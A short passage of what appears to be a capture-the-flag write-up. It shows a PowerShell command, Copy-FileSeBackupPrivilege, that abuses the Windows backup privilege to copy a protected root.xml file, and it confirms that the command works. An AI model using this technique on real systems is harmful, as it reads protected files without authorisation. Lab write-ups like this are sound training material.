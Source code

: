 ![](attachments/20240515170757.png)

Now let's try to copy the file using the same syntax as stated:

![](attachments/20240515170830.png)

![](attachments/20240515170940.png)

```powershell
Copy-FileSeBackupPrivilege root.xml C:\Users\xyan1d3\Documents\root.xml -Overwrite
```

It works!

![](attachments/20240515171034.png)
